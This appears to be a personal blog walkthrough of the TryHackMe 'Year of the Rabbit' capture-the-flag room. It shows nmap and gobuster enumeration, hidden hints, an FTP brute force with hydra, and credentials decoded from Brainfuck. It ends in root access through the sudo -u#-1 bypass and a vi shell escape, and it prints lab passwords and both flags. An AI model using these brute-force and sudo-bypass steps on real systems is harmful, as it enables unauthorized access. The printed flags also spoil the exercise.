 ```yaml
---
layout: post
title:  "TryHackMe: Year of the Rabbit"
description: Time to enter the warren...
date:   2024-05-07 16:53:59 +0100
categories: jekyll update
---
```


# Year of the Rabbit

```sh
export IP= M-ip
```

# Enumeration: 
```sh
nmap -sV -sC -A  $IP
```

```sh

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-11 19:32 EDT
Nmap scan report for 10.10.185.241
Host is up (0.11s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.4
OS details: Linux 5.4
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# Brute forcing Dir:
gobuster dir --url http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```sh
/assets               (Status: 301) [Size: 315] [--> http://10.10.185.241/assets/]
```
![Screenshot_45](https://github.com/a-9-k/WriteUps/assets/53786047/af2eb051-bbe6-481e-af42-8d9bdacd9c5e)


I found in style.css a hint for a dir :

![Screenshot_46](https://github.com/a-9-k/WriteUps/assets/53786047/5bca8390-0b70-4db3-8d30-97776dd8158f)

I checked the directory /sup3r_s3cr3t_fl4g.php :

![Screenshot_49](https://github.com/a-9-k/WriteUps/assets/53786047/dd0d8957-7e19-43a1-9c0a-0facb08adf79)

# Disabling Java script:

```sh
chrome://settings/content/javascript?search=javascript
```
![Screenshot_47](https://github.com/a-9-k/WriteUps/assets/53786047/379c0884-f4b7-4af9-824f-883d51e3faaa)

after disabling Javascript it displayed this hint:

![Screenshot_48](https://github.com/a-9-k/WriteUps/assets/53786047/0a07f249-c4ca-4c1b-9549-4982ba565792)

I did not get anything from here so i thought that certainly something was going on in the back-end, so i fired up burpsuite and test the Link that we found earlier.

I found this Hidden directory

![Screenshot_50](https://github.com/a-9-k/WriteUps/assets/53786047/0e618712-4e81-44de-9571-930ea388a2f4)

![Screenshot_52](https://github.com/a-9-k/WriteUps/assets/53786047/e484c500-f9e0-440d-a9ac-ba851565db1b)

# Brute forcing ftp:

I download the image that we found, and i ran strings on it.
I found a list of passwords for the ftp user.
```sh
strings Hot_Babe.png
```
<details>
  <summary><i>ftp_pass.txt</i></summary>
  <pre>
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
Mou+56n%QK8sr   
1618B0AUshw1M   
A56IpIl%1s02u   
vTFbDzX9&Nmu?   
FfF~sfu^UQZmT   
8FF?iKO27b~V0   
ua4W~2-@y7dE$   
3j39aMQQ7xFXT   
Wb4--CTc4ww*-   
u6oY9?nHv84D&   
0iBp4W69Gr_Yf   
TS*%miyPsGV54   
C77O3FIy0c0sd   
O14xEhgg0Hxz1   
5dpv#Pr$wqH7F   
1G8Ucoce1+gS5   
0plnI%f0~Jw71      
0kLoLzfhqq8u&   
kS9pn5yiFGj6d   
zeff4#!b5Ib_n   
rNT4E4SHDGBkl   
KKH5zy23+S0@B   
3r6PHtM4NzJjE   
gm0!!EC1A0I2?   
HPHr!j00RaDEi   
7N+J9BYSp4uaY   
PYKt-ebvtmWoC   
3TN%cD_E6zm*s   
eo?@c!ly3&=0Z   
nR8&FXz$ZPelN   
eE4Mu53UkKHx#   
86?004F9!o49d   
SNGY0JjA5@0EE   
trm64++JZ7R6E   
3zJuGL~8KmiK^   
CR-ItthsH%9du   
yP9kft386bB8G   
A-*eE3L@!4W5o   
GoM^$82l&GA5D   
1t$4$g$I+V_BH   
0XxpTd90Vt8OL   
j0CN?Z#8Bp69_   
G#h~9@5E5QA5l       
DRWNM7auXF7@j   
Fw!if_=kk7Oqz   
92d5r$uyw!vaE   
c-AA7a2u!W2*?   
zy8z3kBi#2e36   
J5%2Hn+7I6QLt
gL$2fmgnq8vI*   
Etb?i?Kj4R=QM   
7CabD7kwY7=ri       
4uaIRX~-cY6K4
kY1oxscv4EB2d       
k32?3^x1ex7#o   
ep4IPQ_=ku@V8
tQxFJ909rd1y2   
5L6kpPR5E2Msn       
65NX66Wv~oFP2
LRAQ@zcBphn!1   
V4bt3*58Z32Xe   
ki^t!+uqB?DyI   
5iez1wGXKfPKQ   
nJ90XzX&AnF5v   
7EiMd5!r%=18c   
wYyx6Eq-T^9#@   
yT2o$2exo~UdW   
ZuI-8!JyI6iRS
PTKM6RsLWZ1&^   
3O$oC~%XUlRO@   
KW3fjzWpUGHSW   
nTzl5f=9eS&*W   
WS9x0ZF=x1%8z   
Sr4*E4NT5fOhS   
hLR3xQV*gHYuC   
4P3QgF5kflszS   
NIZ2D%d58*v@R   
0rJ7p%6Axm05K   
94rU30Zx45z5c
Vi^Qf+u%0*q_S   
1Fvdp&bNl3#&l   
zLH%Ot0Bw&c%9   
</pre>
</details>


```sh
hydra -l ftpuser  -P /home/user/ftp_pass.txt ftp://IP
```

![Screenshot_51](https://github.com/a-9-k/WriteUps/assets/53786047/f630e561-6bde-4e29-ac5e-30358919c2e8)

```sh
ftp ftpuser@IP 

-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
```
We got some brainfuck code in here:

```sh
ftp> more Eli's_Creds.txt
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- -. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <

```
I use this online decoder to decode it 'https://www.dcode.fr/brainfuck-language'.

```sh
User: eli
Password: DSpDpasssAEwid
```
# Initial access:

```sh
ssh eli@IP
```

I got this message when i ssh into the machine.  

```sh

1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
```
By doing some enumerating i found the folder in 

/usr/games/s3cr3t

```sh
eli@year-of-the-rabbit:/usr/games/s3cr3t$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 23  2020 .
drwxr-xr-x 3 root root 4096 Jan 23  2020 ..
-rw-r--r-- 1 root root  138 Jan 23  2020 .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MnipasssHUNI
Honestly!

Yours sincerely
   -Root
```
this hidden message contain the password of the user gwendoline

We got the first flag in /home/gwendoline/user.txt

```sh
THM{1107174FFFFFLLLLLAAAAAGGGGGG1589bae53}
```

I check the sudoers file for the user gwendoline

```sh
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt

```

(ALL, !root): This part specifies the users (ALL means all users) and the target user 
(!root means any user except root) that gwendoline can run the commands as.
NOPASSWD: This means that gwendoline can run the command without entering a password.
/usr/bin/vi /home/gwendoline/user.txt: This is the command gwendoline is allowed to run. 
It specifies that gwendoline can run the vi command as any user except root.

I found this article on this subject you can check it:

[minus_1_uid](https://www.sudo.ws/security/advisories/minus_1_uid/)

```sh
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

run the ':!/bin/sh' in the vi 

# id
uid=0(root) gid=0(root) groups=0(root)
# ls 
user.txt
# cd /root
# ls
root.txt
# cat root.txt	
THM{8d6f163aFFFLLLAAAGGGaef0f3a0ecf9161}
```
